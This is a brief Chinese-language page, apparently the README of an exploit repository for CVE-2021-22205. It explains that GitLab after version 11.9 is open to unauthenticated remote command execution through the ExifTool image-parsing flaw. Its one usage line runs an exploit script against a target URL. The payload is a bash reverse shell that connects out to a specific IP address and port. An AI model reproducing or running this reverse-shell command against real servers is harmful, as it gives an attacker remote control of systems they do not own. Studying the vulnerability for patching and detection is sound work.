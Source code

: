 # CVE-2021-22205

GitLab是一款Ruby开发的Git项目管理平台。在11.9以后的GitLab中，因为使用了图片处理工具ExifTool而受到漏洞[CVE-2021-22204](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)的影响，攻击者可以通过一个未授权的接口上传一张恶意构造的图片，进而在GitLab服务器上执行任意命令。





```bash
python3.10 exp.py http://localhost:32780/ "bash -c 'bash -i >& /dev/tcp/121.5.169.223/39576 0>&1'"
```

